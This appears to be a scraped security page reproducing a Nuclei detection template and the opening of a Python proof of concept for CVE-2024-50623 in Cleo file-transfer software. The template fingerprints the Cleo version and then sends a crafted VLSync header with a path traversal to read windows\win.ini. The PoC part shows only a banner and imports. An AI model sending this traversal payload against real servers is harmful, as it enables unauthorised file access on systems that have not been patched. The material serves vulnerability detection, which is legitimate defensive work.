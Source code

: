 ```
http:
  - raw:
      - |
        GET /Synchronization HTTP/1.1
        Host: {{Hostname}}
        
    matchers:
      - type: dsl
        dsl:
          - 'contains(tolower(response), "cleo")'
        internal: true
        
    extractors:
      - type: regex
        name: version
        part: header
        internal: true
        regex:
          - "Server: Cleo.*?/([0-9.]+)"
        group: 1
        
  - raw:
      - |
        GET /Synchronization HTTP/1.1
        Host: {{Hostname}}
        VLSync: Retrieve;l=Ab1234-RQ0258;n=VLTrader;v={{version}};a=1337;po=5080;s=True;b=False;pp=1337;path=..\..\..\windows\win.ini
        
    matchers:
      - type: word
        part: body
        words:
          - "bit app support"
          - "fonts"
          - "extensions"
        condition: and
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvj7aNOq1NQ5HZMcXNKUopS9p2NqlsGfnUWS58AD0ib36GOzPiaBhz5ffGX29CicUV7lEBYL67md5vkA/640?wx_fmt=png&from=appmsg "")  
  
python poc  
```
banner = """			 __         ___  ___________                   
	 __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
	 \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
	  \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
	   \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
				  \\/          \\/     \\/                            

        CVE-2024-50623.py
        (*) Cleo Unrestricted file upload and download vulnerability (CVE-2024-50623)

          - Sonny and Sina Kheirkhah (@SinSinology) of watchTowr (sina@watchTowr.com)

        CVEs: [CVE-2024-50623]  """


import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)
import requests
requests.packages.urllib3.disable_warnings()
import argparse

```